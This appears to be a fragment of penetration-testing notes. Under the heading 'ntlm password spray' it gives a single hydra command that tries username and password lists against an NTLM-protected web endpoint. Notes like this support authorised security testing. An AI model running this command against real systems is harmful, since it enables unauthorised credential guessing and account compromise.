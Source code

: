 ## ntlm password spray
hydra -L usernames.txt -P passwords.txt <target_url> http-get '/:A=NTLM:F=401'

